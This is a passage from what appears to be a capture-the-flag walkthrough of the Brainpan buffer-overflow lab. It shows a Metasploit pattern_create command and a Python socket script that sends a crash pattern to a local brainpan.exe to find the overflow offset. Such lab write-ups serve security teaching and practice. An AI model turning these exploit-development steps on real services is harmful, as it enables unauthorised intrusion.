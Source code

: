 ![](img/debugger.png)

### Step 2: Finding the offset

Now, we want to know: how much characters do we need at least to crash the program? 

This amount is called the **offset**. In order to find it, we can rely on two Metasploit scripts (called `pattern_create.rb` and `pattern_offset.rb`) or simply go manually.   

#### Method#1: `pattern_create` + `pattern_offset`

- We create a pattern of 529 characters with `pattern_create.rb`:

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 529 > pattern.txt
```

- We send this pattern to our wine local instance of `brainpan.exe`:

```python
import socket
import time

target = '127.0.0.1'
port = 9999

with open("pattern.txt") as f:
    buffer = f.read().strip().encode()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```

